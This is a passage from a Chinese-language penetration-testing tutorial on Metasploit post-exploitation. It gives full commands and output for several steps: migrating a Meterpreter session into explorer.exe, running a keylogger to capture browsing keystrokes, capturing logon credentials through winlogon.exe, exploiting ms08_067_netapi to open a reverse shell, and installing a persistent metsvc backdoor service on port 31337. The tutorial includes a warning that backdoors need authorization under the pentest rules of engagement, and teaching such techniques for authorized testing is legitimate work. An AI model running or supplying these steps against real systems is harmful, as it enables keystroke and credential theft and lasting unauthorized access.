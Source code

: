 在这个阶段，我们将将 meterpreter shell 迁移到`explorer.exe`进程（`3172`），以便使用以下命令开始记录系统上当前用户的活动：

```
 meterpreter> migrate 3172
    [*] Migrating to 3172...
    [*] Migration completed successfully.
    meterpreter>getuid
    Server username: CUSTDESKsalesdept
    meterpreter>keyscan_start
    Starting the keystroke sniffer... 
```

我们现在已经启动了我们的键盘记录器，应该等一段时间来获取记录的数据块：

```
 meterpreter>keyscan_dump
    Dumping captured keystrokes...
    <Return> www.yahoo.com <Return><Back> www.bbc.co.uk <Return>
    meterpreter>keyscan_stop
    Stopping the keystroke sniffer... 
```

正如您所看到的，我们已经转储了目标的网络浏览活动。同样，我们还可以通过将`winlogon.exe`进程（`648`）迁移来捕获登录到系统的所有用户的凭据。

您已经利用并获得了对目标系统的访问权限，但现在希望保持此访问权限，即使在以后的阶段修补了被利用的服务或应用程序。这种活动通常被称为后门服务。请注意，meterpreter shell 提供的后门服务在访问目标系统上的特定网络端口之前不需要进行身份验证。这可能允许一些不速之客访问您的目标，并构成重大风险。作为渗透测试规则的一部分，通常不允许这种活动。因此，我们强烈建议您将后门服务远离官方的渗透测试环境。您还应确保在范围和规则确定阶段明确允许了这一点：

```
 msf exploit(ms08_067_netapi) > exploit
    [*] Started reverse handler on 192.168.0.3:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (749056 bytes) to 192.168.0.7
    [*] Meterpreter session 1 opened (192.168.0.3:4444 -> 192.168.0.7:1032) at Tue Nov 16 19:21:39 +0000 2010
    meterpreter>ps
    ...
     292   alg.exe           x86   0        NT AUTHORITYLOCAL SERVICE     C:WINDOWSSystem32alg.exe
    1840  csrss.exe         x86   2        NT AUTHORITYSYSTEM            ??C:WINDOWSsystem32csrss.exe
     528   winlogon.exe      x86   2        NT AUTHORITYSYSTEM            ??C:WINDOWSsystem32winlogon.exe
     240   rdpclip.exe       x86   0        CUSTDESKMomin Desktop         C:WINDOWSsystem32rdpclip.exe
    1060  userinit.exe      x86   0        CUSTDESKMomin Desktop         C:WINDOWSsystem32userinit.exe
    1544  explorer.exe      x86   0        CUSTDESKMomin Desktop         C:WINDOWSExplorer.EXE
    ...
    meterpreter> migrate 1544
    [*] Migrating to 1544...
    [*] Migration completed successfully.
    meterpreter> run metsvc -h
    ...
    meterpreter> run metsvc
    [*] Creating a meterpreter service on port 31337
    [*] Creating a temporary installation directory  C:DOCUME~1MOMIND~1LOCALS~1TempoNyLOPeS...
    [*]  >> Uploading metsrv.dll...
    [*]  >> Uploading metsvc-server.exe...
    [*]  >> Uploading metsvc.exe...
    [*] Starting the service...
             * Installing service metsvc
     * Starting service
    Service metsvc successfully installed. 
```
